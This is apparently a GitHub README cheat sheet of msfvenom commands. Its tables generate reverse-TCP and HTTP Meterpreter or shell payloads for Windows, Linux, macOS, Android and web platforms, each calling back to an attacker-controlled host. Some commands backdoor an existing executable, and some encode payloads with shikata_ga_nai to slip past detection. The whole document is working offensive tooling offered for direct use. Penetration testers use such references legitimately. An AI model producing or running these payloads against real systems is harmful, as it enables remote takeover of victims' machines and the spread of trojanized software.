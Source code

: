 <h1 align="center"> Msfvenom-Cheat-Sheet</h1>
<p align="center">
  A list of msfvenom commands
</p>

## Binaries
| Command       | Info           |
| ------------- |:-------------:|
|msfvenom -p windows/meterpreter/reverse_tcp LHOST=(Your IP/DNS) LPORT=(Your Port) -f exe > example.exe | Creates a simple TCP Payload for Windows |
|msfvenom -p windows/meterpreter/reverse_http LHOST=(Your IP/DNS) LPORT=(Your Port) -f exe > example.exe | Creates a simple HTTP Payload for Windows |
|msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=(Your IP/DNS) LPORT=(Your Port) -f elf > example.elf | Creates a simple TCP Shell for Linux |
|msfvenom -p osx/x86/shell_reverse_tcp LHOST=(Your IP/DNS) LPORT=(Your Port) -f macho > example.macho | Creates a simple TCP Shell for Mac |
|msfvenom -p android/meterpreter/reverse/tcp LHOST=(Your IP/DNS) LPORT=(Your Port) R > example.apk | Creats a simple TCP Payload for Android |

## Web Payloads
| Command       | Info           |
| ------------- |:-------------:|
|msfvenom -p php/meterpreter_reverse_tcp LHOST=(Your IP/DNS) LPORT=(Your Port) -f raw > example.php | Creats a Simple TCP Shell for PHP |
|msfvenom -p windows/meterpreter/reverse_tcp LHOST=(Your IP/DNS) LPORT=(Your Port) -f asp > example.asp | Creats a Simple TCP Shell for ASP |
|msfvenom -p java/jsp_shell_reverse_tcp LHOST=(Your IP/DNS) LPORT=(Your Port) -f raw > example.jsp | Creats a Simple TCP Shell for Javascript |
|msfvenom -p java/jsp_shell_reverse_tcp LHOST=(Your IP/DNS) LPORT=(Your Port) -f war > example.war | Creats a Simple TCP Shell for WAR |

## Windows Payloads
| Command       | Info           |
| ------------- |:-------------:|
|msfvenom -l encoders | Lists all avalaible encoders|
|msfvenom -x base.exe -k -p windows/meterpreter/reverse_tcp LHOST=(Your IP/DNS) LPORT=(Your Port) -f exe > example.exe | Binds an exe with a Payload (Backdoors an exe) | 
|msfvenom -p windows/meterpreter/reverse_tcp LHOST=(Your IP/DNS) LPORT=(Your Port) -e x86/shikata_ga_nai -b '\x00' -i 3 -f exe > example.exe | Creates a simple TCP payload with shikata_ga_nai encoder |
|msfvenom -x base.exe -k -p windows/meterpreter/reverse_tcp LHOST=(Your IP/DNS) LPORT=(Your Port) -e x86/shikata_ga_nai -i 3 -b "\x00" -f exe > example.exe | Binds an exe with a Payload and encodes it |
